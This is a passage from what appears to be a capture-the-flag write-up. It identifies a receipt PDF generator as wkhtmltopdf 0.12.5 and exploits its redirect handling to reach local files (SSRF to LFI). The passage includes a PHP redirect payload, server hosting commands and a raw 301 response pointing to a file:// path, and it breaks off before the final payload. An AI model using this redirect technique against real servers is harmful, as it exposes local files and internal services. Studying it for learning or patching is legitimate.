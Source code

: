 After trying most of the techniques from [**@NahamSec**](https://twitter.com/NahamSec) & [**@Daeken**](https://twitter.com/Daeken)'s [presentation](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent) without success, it's time for us to try something else. First, what's the `PDF` generator used here, and what version? The generator's name, `wkhtlmtopdf`, was visible in the `User-Agent` header we received earlier in the `netcat` listener. To get the version, we can try looking through the downloaded `PDF` metadata:

```zsh
lassi@kali:~$ pdfinfo 19042022-7DWlUOBB8cX3YaqfQK1b.pdf                    
Title:           Receipt
Creator:         wkhtmltopdf 0.12.5
Producer:        Qt 4.8.7
...
```

Let's research a bit by googling some of these keywords: "**wkhtmltopdf**" "**ssrf**" "**xss**" "**lfi**".

We come across these great three links:

https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570

https://www.jomar.fr/posts/2021/ssrf_through_pdf_generation/

http://hassankhanyusufzai.com/SSRF-to-LFI/

It seems as though by default `wkhtmltopdf` doesn't properly check if a redirection is happening to a local file, and fetches it. Let's construct a diagram of this happening:

![](attachments/Pasted%20image%2020220620222412.png)

This seems to be fixed in the most recent release of `wkhtmltopdf`, as indicated in the [release notes](https://github.com/wkhtmltopdf/wkhtmltopdf/releases/tag/0.12.6) for **0.12.6**: 

> -   **[#4536](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536)**: BREAKING CHANGE: block local filesystem access by default

However, according to the metadata the version on the server is **0.12.5**, so let's try to exploit the vulnerability. We will need a functional `PHP` server, and as we are elite hackers, we of course have a `LAMP` stack already running. We will host this payload code as `surf.php`:

```php
<?php
$loc = "http://127.0.0.1/"; if(isset($_GET['p'])){ $loc = $_GET['p']; } header('Location: '.$loc);
?>
```

A simple `php -S 0.0.0.0:80` command would also suffice to host the `PHP` file. We can't use the usual `python -m http.server`, because then our code wouldn't execute. We could also do this with straight up `netcat` by manually entering the `HTTP` response every time, but it's very tedious:

```http
HTTP/1.1 301 Moved Permanently
Location: file:///foo/bar
```

Now, to try the redirection vulnerability in practice, we input the following payload into the receipt generator same as before:
